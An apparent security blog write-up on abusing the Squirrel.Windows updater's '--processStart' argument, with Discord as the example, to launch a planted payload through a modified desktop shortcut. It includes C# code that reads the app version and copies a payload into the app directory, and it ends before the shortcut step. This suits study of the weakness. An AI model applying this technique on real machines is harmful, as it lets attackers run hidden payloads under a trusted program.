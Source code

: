```yaml
---
title: "Using Squirrel Framework to escalate privileges"
categories:
tags:
  - squirrel-framework
image:
  path: "https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FXU38zNUjuKfIqwvKrPY9%2F00143-2626686512.png?alt=media&token=2d9f8d64-4a11-4b43-870a-12646885a4b8"
  twitter: "https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FXU38zNUjuKfIqwvKrPY9%2F00143-2626686512.png?alt=media&token=2d9f8d64-4a11-4b43-870a-12646885a4b8"
og_image: "https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FXU38zNUjuKfIqwvKrPY9%2F00143-2626686512.png?alt=media&token=2d9f8d64-4a11-4b43-870a-12646885a4b8"
header:
  image: "https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FXU38zNUjuKfIqwvKrPY9%2F00143-2626686512.png?alt=media&token=2d9f8d64-4a11-4b43-870a-12646885a4b8"

twitter:
  image: "https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FXU38zNUjuKfIqwvKrPY9%2F00143-2626686512.png?alt=media&token=2d9f8d64-4a11-4b43-870a-12646885a4b8"
---
```


The [Squirrel framework](https://github.com/Squirrel/Squirrel.Windows) can be used to trick the user and escalate privileges. Keep in mind that this is no vulnerability in Squirrel, we are just taking advantage of how it works.

In this example we will check Discord, which uses Squirrel for updating.

By checking out the Desktop shortcut that is created during installation, we can see an interesting argument passed to the Update.exe

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FiJLHQNak3q7BAm6FeVrJ%2Fimage.png?alt=media&token=18840807-3d35-4a5c-9e1c-39d341d31ef2"/>
</div>

<p>The argument "--processStart" as per the documentation "Start an executable in the latest version of the app package".</p>

So what if we place a payload in the app directory, change the shortcut an run it?

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2FLJkoTumaUAFTM734DdXH%2Fimage.png?alt=media&token=c60d0413-5e33-456b-ad81-00675e5f4d53"/>
</div>

<p>Our payload runs:</p>

<div style="text-align: center">
    <img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F1LVNvGPGQCnGZ6XXnRnz%2Fuploads%2F6hcO8GNGP30qPD8F74kC%2Fimage.png?alt=media&token=7e8977d6-a96a-4c29-ab31-47ecf46e167d"/>
</div>

<p>So to create our little POC we need a few things:</p>

1. Find the latest version of the app package.
2. Place our payload on the latest app package directory.
3. Change the Shortcut to lunch our payload instead of the discord binary.


<h2>Finding the latest version of the app package</h2>

The version of the app is inside a file located on: ``%localappdata%\Discord\packages\RELEASES`` 

If we check the contents of this file, we have something like this: 
``230E51FC4929ACDC6DF44F0BA88B82316DDC97BF discord-updater-1.0.9013.nupkg 166474477``

What we need is this value here: ``1.0.9013``, to do this we can use regex and extract it:
```csharp
private string GetVersion(string fullPath)
{
    string releasesFilePath = Path.Combine(fullPath, "packages", "RELEASES");

    if (File.Exists(releasesFilePath))
    {
        string content = File.ReadAllText(releasesFilePath);

        string pattern = @"\d+(\.\d+)+";
        Match match = Regex.Match(content, pattern);

        if (match.Success)
            return match.Value;
    }

    return string.Empty;
}
```

The ``fullPath`` is the root directory of discord: ``%localappdata%\Discord``.

<h2>Placing our payload on the latest app package directory</h2>



```csharp
private void CopyPayloadToDestiny(string fullPath, string version, string payloadPath)
{
    string appDirectory = Path.Combine(fullPath, $"app-{version}");

    if (Directory.Exists(appDirectory))
        File.Copy(payloadPath, Path.Combine(appDirectory, Path.GetFileName(payloadPath)), true);
}
```